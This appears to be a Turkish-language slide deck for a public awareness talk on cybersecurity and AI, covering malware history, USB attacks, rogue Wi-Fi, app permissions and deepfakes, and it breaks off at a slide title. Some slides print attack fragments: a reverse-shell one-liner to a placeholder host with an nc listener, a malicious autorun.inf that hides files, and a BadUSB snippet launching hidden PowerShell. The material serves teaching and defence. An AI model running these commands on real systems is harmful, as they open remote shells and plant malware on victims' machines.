Görünmez
tehlikeler
Yapay Zekâ
&
Siber Güvenlik
Yapay zekâ çağında verini, telefonunu ve kimliğini koruyacak bilinmesi gereken her şey.
Dr. Öğr. Üyesi
Ramazan Özgür Doğan
İlk
taşınabilir bilgisayar
sizce ne kadar büyüktü?
Cevap "C" · DYSEAC — bir oda kadar, tırlarla taşındı
ABD Ordusu, 1954 · 20 ton · 2 traktör römorku · 900 vakum tüpü


Peki ya 71 yıl sonra?
DYSEAC → bileğinizde: Huawei Watch GT 3
Bu sunum sırasında kolumda bu saat var. Ne kadar değiştiğine bir bakalım.

Bu saat zaten 4 yaşında. Bugünün en yeni modelleri çok daha güçlü — ama esas mesaj: teknoloji küçüldü, hayatımıza girdi. Tehditler de bizimle yaşıyor şimdi.
Donanım bu kadar hızlı gelişirken
yazılım da
yerinde durmadı.
20 tondan 42 grama
milyarlarca satır kod
her kod satırında saklı
Bir şey ne kadar hızlı gelişirse,
geride açık bırakma ihtimali o kadar artar.
Virüsler
— Aslında Birer Yazılım
Filmlerdeki o "yeşil yağmur"un arkasında satırlarca kod var.
11001011 10010100
exec(payload);
}
hide();
}
Aslında ne bunlar?
"Virüs" deyince zihinde bir canavar canlanır — gerçekte birer program.
creeper.exe
# Ekrana yazardı:
"I'M THE CREEPER,
CATCH ME IF YOU CAN!"
# İlk antivirüs — Reaper
# onu silmek için yazıldı.
> Virüs = sadece bir program
Yazılımdır, sihir değil
Bir Word belgesi, bir mobil oyun, bir tarayıcı eklentisi nasıl yazılımsa — virüs de aynı şekilde yazılmış bir programdır. Sadece amacı kötü.
Birisi yazdı
Doğa kuvveti değil. Arkasında insan(lar) vardır: para kazanmak, casusluk, devlet eylemleri, sırf eğlence ya da intikam için yazılırlar.
Hangi dilde?
C, C++, Python, Assembly, JavaScript... Tahmin et — okulda YZ Mühendisliği öğrencileri de bu dilleri öğreniyor. Aynı bilgi, iki amaca da hizmet eder.
Bir virüs sana nasıl bulaşır?
"Hiçbir şeye tıklamadım ki!" — emin misin?
E-posta Eki
"Faturanız ektedir" → fatura.pdf.exe. Tıklarsın, açılır.
USB Bellek
Bulduğun ya da ödünç aldığın USB. Autorun ile takar takmaz çalışır.
Sahte Yazılım
"FIFA crack" / "Photoshop bedava" — ana cazibe değil, virüstür.
Drive-by-Download
Sadece siteye girmek yeter. Tarayıcı açığını kullanır, tıklamadan.
Zararlı Reklam
Malvertising: meşru sitelerin reklam alanına sızdırılır.
Zero-Click
Pegasus gibi araçlar: SMS / WhatsApp — açmasan bile bulaşır.
Kural: Beklemediğin ek, beklemediğin link, beklemediğin "bedava" yazılım = tuzak.
autorun.inf · Conficker · Shortcut Virus
USB takıyorsunuz, dosyalarınız kısayola dönüşüyor — sizce nasıl?
[autorun]
open=virus.exe
shellexecute=virus.exe
# Dosyaları gizle:
attrib +h +s *.*
> ✗ KILIK DEĞİŞTİRME
Yöntem · Windows'un kendi özelliği
Windows XP'de USB takınca autorun.inf otomatik çalışırdı. Saldırganlar bu özelliği virüs taşıyıcısına çevirdi.
Conficker (2008) — modern çağın ilk pandemisi
9-15 milyon bilgisayara bulaştı. Fransız Hava Kuvvetleri uçaklarını, İngiliz savaş gemilerini, Alman hastanelerini durdurdu. Hâlâ aktif.
Shortcut Virus — bugün bile gördüğünüz
USB'nizdeki dosyaların hepsi .lnk kısayoluna dönüşürse — işte o anda Conficker'ın torunlarından birini ağırlıyorsunuzdur. Resmî adı: VBS:Houdini / Win32.Bundpil ailesi.
9 yıl sonra aynı fikir, ama 1000 kat daha büyük bir versiyon dünyayı vurdu: WannaCry (2017).
WannaCry · 4 saatte dünya çöktü
Sebep
NSA'dan çalınan EternalBlue açığı.
Microsoft yamayı 2 ay önce yayınlamıştı —
kimse güncellememişti.
Kahraman
Marcus Hutchins · 22 yaşında
Kodun içinde tuhaf bir alan adı buldu, 10$'a satın aldı → kill-switch tetiklendi, dünya kurtuldu.
Perde
Arkası
Hacker'lar sisteme nasıl sızar, nasıl gizlenir, nasıl kontrol eder?
Reverse Shell
Kurbanın kendi açtığı arka kapı
Zero-Day
Henüz keşfedilmemiş silah
Reverse Shell — Kukla Ustası
Kamera ışığı yanmadan kameraya nasıl erişilir?
Klasik (Bind Shell)
Hacker dışarıdan içeri bağlanır. Güvenlik duvarı durdurur. ❌
Ters (Reverse Shell)
Kurbanın bilgisayarı kendi isteğiyle hacker'a bağlanır. Güvenlik duvarı: "içeriden çıkış → güvenli" der. ✅
Donanıma Doğrudan
Hacker uygulamayı açmaz — çekirdeğe "kameradan veri al, bana yolla" der. Kamera ışığı bile yanmayabilir.
$ nc -lvnp 4444
→ dinliyorum...
# Kurban (BadUSB ile):
$ bash -i >& /dev/tcp/X.X.X.X/4444 0>&1
→ Connection received
→ ACCESS_GRANTED
Sade görünür. Sonuçları yıkıcıdır.
Zero-Day — Görünmez Silahlar
"Bilgisayarım güncel, bana bir şey olmaz" — emin misin?
Normal açık
Şirket fark eder → yama yayımlar → güncellersin → düzelir. ✅ güvenli süreç
Zero-Day
Sadece onu bulanın bildiği, üreten şirketin bile haberi olmadığı gizli arka kapı. "0. gün" — yamanın daha hiç olmadığı an.
Milyon dolarlık piyasası var
iOS / WhatsApp / Chrome zero-day'leri 2-3 milyon $'a satılabilir (Zerodium, NSO Group...).
Görünmez Cihazlar
Sıradan görünen, ama içinde saldırı saklayan donanımlar.
Bilgisayar özünde bir giriş-çıkış (I/O) aygıtıdır. Klavye, fare, USB, ağ — hepsi giriş.
Her giriş yolu teoride kötü amaçlı kullanılabilir.
Saldırganlar bu fikri ciddiye aldı — ve sıradan günlük eşyaları saldırı aletine dönüştüren cihazlar geliştirdi. Şimdi bunlardan birkaçına bakalım:
Rubber Ducky, BadUSB
O.MG Cable, Juice Jacking
Flipper Zero
WiFi Pineapple, MITM
Flipper Zero

Ne yapar?
Etrafındaki radyo sinyallerini okur, kopyalar ve geri yayınlar: garaj kapısı, otel oda kartı, TV kumandası, akıllı bilekliğin NFC'si...
Yakındakileri rahatsız eder
Sahte Bluetooth bildirimleri ile çevredeki telefonları kilitler / dondurur ("Bluetooth spam"). iPhone'lar 2024'te yama aldı.
Sen ne yapabilirsin?
Bilekliğindeki NFC'yi kapalı tut, otel kartını cüzdanda saklama, Bluetooth'u sürekli açık bırakma.
USB Rubber Ducky
a.k.a. BadUSB · HID Spoofing
> 1.000+

Kendini klavye gibi tanıtır
Bilgisayar onu USB bellek değil klavye sanır. Klavyelere güvenildiği için, komutları insanüstü hızla yazar ve Enter'a basar.
"USB Drop" senaryosu
Saldırgan kantin / koridor / otoparkta birkaç USB düşürür. Merakla takan kişinin sistemine 3 saniyede zararlı yazılım yüklenir.
GUI r // Win+R
STRING powershell -nop -w hidden
ENTER
# SİSTEM ELE GEÇTİ
O.MG Cable
Dünyanın en tehlikeli şarj kablosu

Farkı görebilir misin?
Dışarıdan tamamen sıradan bir Lightning/USB-C kablosu. İçindeki mikroçip + Wi-Fi modülü çıplak gözle görünmez.
Gizli Wi-Fi ağı yayar
Kablo takılı kaldığı sürece 30-60 m menzilde saldırgan, telefondan kabloyu uzaktan kontrol eder.
Klavye komutları gönderir
Tıpkı Rubber Ducky gibi — ama bu sefer "sadece şarj kablosu" diyerek girer.
Çıkış: kablonu ödünç verme
"Kablonu alabilir miyim?" — Hayır. Yedek bir orijinal kabloyu çantanda taşı.
Juice Jacking
Havalimanı / AVM / Otobüs USB şarj portları

USB sadece elektrik değil veri de taşır
5 pinden 2'si veri pinidir. Saldırgan o pinleri kendine yönlendirir.
Veri Çalma
fotoğraf, kayıtlı şifre
Zararlı Yazılım
arka planda yüklenir
Kural: Halka açık portlara asla kabloyla bağlanma. Power bank / orijinal adaptör.
USB Data Blocker
Birkaç liraya, hayat kurtaran ufak aparat


USB'nin sadece elektrik almasına izin verir, veri pinlerini fiziksel olarak keser.
DATA
kesildi
POWER
geçiyor
"PortaPow" gibi markaların ürettiği bu çubuk, halka açık şarj portlarına karşı en pratik çözüm. Çantanda taşı, kabloyla port arasına tak. Bitti.
Wi-Fi Pineapple
"Bedava Wi-Fi" gördüğünde iki kez düşün.

Sahte ağ kurar
"Starbucks_Free", "Okul_Misafir", "TT_WiFi_Free" gibi tanıdık isimler yayar. Bağlanırsın, çalışır gibi görünür.
Tüm trafiğini görür
Şifrelenmemiş trafiği kaydeder: hangi siteye girdin, ne yazdın, hangi şifreyi denedin.
Bonus: Sahte "Güncelleme" tuzağı
Adresin doğru görünür ama Pineapple DNS'i değiştirir. "Chrome güncelle" uyarısıyla zararlı yazılım kendi ellerinle kurulur.
Çıkış: VPN + Mobil Veri
Şüpheli ağda bankaya, mail'e, sosyal medyaya girme. Mobil verini / güvenilir VPN kullan.
İzlemeye değer: Dizi & Filmler
Şimdiye kadar gördüğümüz cihazlar, virüsler, saldırılar — hepsi bu yapımlarda gerçek dünyaya yakın anlatılıyor.
Mr. Robot
Gerçek hacker danışman (Kor Adana) ile çekildi. Ekranda Kali Linux, gerçek komutlar, BadUSB, MITM, SIM swap — hepsi var. %100 sahici.

Unfriended: Dark Web
Matias kafede bir laptop bulur, eve götürür. İçinden çıkanlar onu izleyenleri, izlemeye başlatır. Bulunan cihaz = tuzak.
Bonus öneriler: Black Mirror · Snowden · The Social Dilemma · Searching
Etik soru: İyi niyet, kötü yöntemi haklı çıkarır mı? Beyaz/siyah şapka çizgisi nerede?
Telefonlardaki
Tehlikeler
Telefonunuzdaki uygulamaların hangi izinlere sahip olduğunu biliyor musunuz?
"El fenerim neden rehberimi istiyor?"
Uygulama izinleri — okumadan "Kabul" dediğin metnin gerçeği
El Feneri
Konum + Rehber + SMS ister. Neden? Veri toplayıp reklam şirketlerine satmak için.
Yüz Filtresi
"Fotoğraflar" izni = tüm galeriyi tarar. Yüz haritan biyometri olarak sunucuya kopyalanır.
Basit Oyun
"Her zaman" konum = 7/24 nerede olduğunu bilirim, günlük rotanı fişlerim.
Yeşil & Turuncu Nokta
iOS / Android'de ekranın sağ üstünde:
● Kamera kullanılıyor ● Mikrofon kullanılıyor
Hangi uygulama? — kontrol et.
Bu hafta yap:
Ayarlar → Gizlilik → Uygulama İzinleri. Mantıksız izinleri tek tek kapat. Bedava 10 dakika, ömürlük gizlilik.
Pokémon GO efsanesi
"Oyunu sen mi oynadın, oyun mu seni oynadı?"

Milyonlarca "veri işçisi" parka çıkmış
Yaya rotası
"10 km yürü" → milyonlarca insan haritacılık yaptı, ücretsiz.
3D Harita
"AR ile tara, ödül kazan" → şehirlerin dijital ikizi.
Yönlendirme
McDonald's, Starbucks para verip PokéStop oldu.
Ders
"Bedava" yoktur. Cebinden ya da verinle ödersin.
Sonra Yapay Zekâ geldi.
Ve işin rengi değişti.
Son 3 yılda AI araçları hayatımızın merkezine yerleşti. Ödev yazıyor, görsel üretiyor, video çekiyor, sesini taklit ediyor... Saldırganlar da bunu fark etti.
Ama her şey nasıl başlamıştı? 30 Kasım 2022 — sıradan bir tweet ile.

3 yılda
her şey
değişti.
Bu tweet'le internet, sanat, eğitim, dolandırıcılık, savunma — her şey başka bir döneme girdi.
kullanıcı
tarihin en hızlısı
"AI'ın Babası" bile endişeli.
Yarattığı teknolojiden korkan adam — Geoffrey Hinton
Sinir ağlarının babası. AI'ı bugünkü hâline getiren temel çalışmaları yaptı. 2023'te Google'dan istifa etti — "özgürce konuşabilmek için".
"Hayatımı buna adadığım için pişmanım. AI'ın insanlığa varoluşsal bir tehdit oluşturma ihtimali var."
İnsan zekâsını geçmek
"5-20 yıl içinde AI bizden daha akıllı olabilir."
Sahte içerik patlaması
"Gerçek ile sahte arasındaki çizgi yok olacak."
İş kaybı
"Milyonlarca 'beyaz yakalı' meslek tehdit altında."
Otonom silahlar
"AI kontrollü savaş robotları en korkutucu kısım."
Mesaj: AI'ı yaratan adam bile uyarıyor. Yarın korumamız gereken sadece kendimiz değil — geleceğimiz.
"Bu fotoğraflar hiç çekilmedi."
Sosyal medyada milyarlarca kez paylaşıldı. İkisi de yapay zekâ ile üretildi.

Deepfake video
Eskiden aylar süren iş. Bugün: 3 saniyede ünlü "konuşur".
Ses Klonu
5 sn TikTok sesi → "Anne, kaza yaptım, acil para".
Halüsinasyon
AI kendinden emin yalan söyler. Kaynak doğrula.
Korunma
Geri ara · kod kelime belirle · doğrula.
"Will Smith spagetti yiyor" — AI evrimi
Aynı komut, her yıl bir AI modeline. Sonuca dikkat.
3 yılda kabustan gerçeğe — şimdi düşün: bir sonraki 3 yıl ne getirecek? Sahte içeriği fark edebilecek miyiz?
"Görmek
inanmak
değildir."
"Kangal kadını ayıdan kurtarıyor"
TikTok'ta milyonlarca izlendi. Ne kangal, ne ayı, ne kadın gerçek. Üretildiği süre: ~30 saniye.
İpucu: Videodaki kapının açılış yönüne dikkat — menteşe ile açılış tarafı gerçek dünyada olamayacak şekilde uyumsuz. AI'nın hâlâ tökezlediği klasik bir fizik hatası.
"Görmek"
artık bir
delil değil.
"Kedi camdan düşen bebeği yakaladı"
Haber sitelerinde bile paylaşıldı. Ne Ankara, ne kedi, ne bebek gerçek.
Düşün: Bir mahkemede "video kanıt" olarak sunulan görüntü gerçek mi? Gerçeğin tanımı değişiyor.
AI çağına nasıl geldik? Peki sonrası?
GPU Devrimi
